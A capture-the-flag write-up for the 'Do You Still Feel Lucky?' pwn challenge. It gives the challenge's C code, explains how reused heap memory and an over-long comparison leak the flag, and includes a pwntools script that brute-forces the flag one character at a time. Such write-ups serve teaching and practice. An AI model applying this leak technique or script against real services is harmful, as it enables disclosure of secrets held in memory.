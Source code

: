 # Do You Still Feel Lucky? -- Solution

The user is given a seemingly impossible task of guessing the flag with useful
feedback given when more than half the flag characters are guessed and again
when all but two characters are guessed.

```c  
void read_flag() {  
 FILE* in;  
  
 in = fopen("flag.txt", "rt");  
 fgets(flag, 64, in);  
 flag_length = strlen(flag);  
 fclose(in);  
}

void guess_flag() {  
 int guess_length;  
 char *guess;  
 int ncorrect;  
 int i;  
  
 puts("Try to guess the flag!");  
 puts("Enter the length of your guess:");  
 scanf("%d", &guess_length);  
 getchar();  
 guess = malloc(guess_length);  
 puts("Enter your guess:");  
 fgets(guess, guess_length, stdin);

 ncorrect = 0;  
 for (i=0; i<guess_length && i<flag_length; i++)  
   if (guess[i] == flag[i])  
     ncorrect++;

 if (ncorrect == flag_length)  
   puts("Got it!");  
 else if (ncorrect == flag_length-2)  
   puts("Almost!");  
 else if (ncorrect*2 >= flag_length)  
   puts("Getting there!");  
 else  
   puts("Not even close.");  
  
 free(guess);  
}  
```

Exploit is possible due to a bug in how the guess is read and compared to the
flag, but also a bit of luck with the allocator:

1. With the provided libc, `fgets` will allocate (and subsequently free) heap memory to store the data read from the file -- the flag in our case. Later, when `malloc` is used to allocate memory for the guess, it will return the same heap address used by `fgets` that will *already contain the flag*.

2. If the user sends a string shorted than `guess_length`, the string is zero-terminated, but all the `guess_length` number of characters will be compared to the flag. Hence, as long as the user sends some *prefix* of the flag, the number of calculated number of correct characters will be `n-2` (all except newline and zero characters). 

Therefore, we can search the flag characters one by one always maintaining a
correct prefix.

```python  
#!/usr/bin/env python3

import string

from pwn import *

def conn():  
   context.update(arch='amd64', os='linux', terminal=['tmux', 'new-window'])  
   if args.REMOTE:  
       p = remote( '0.cloud.chals.io', 25330)  
   else:  
       p = process('./chall')  
   return p

def guess(k, s):  
   p = conn()  
   p.sendlineafter(b':\n', str(k).encode())  
   p.sendlineafter(b':\n', s.encode())  
   ret = p.recvline()  
   p.close()  
   return ret.strip().decode('ascii')  
  
C = 'TBTL'  
for i in range(60):  
   next = None  
   for x in string.printable:  
       g = guess(64, C+x)  
       print(C+x, g)  
       if g == 'Got it!':  
           print(C+x)  
           exit()  
       elif g[0] == 'A':  
           next = x  
           break   
   assert next  
   C += x  
```

Original writeup (https://github.com/blockhousetech/TBTL-
CTF/tree/master/2023/Pwn/do_you_still_feel_lucky/solution).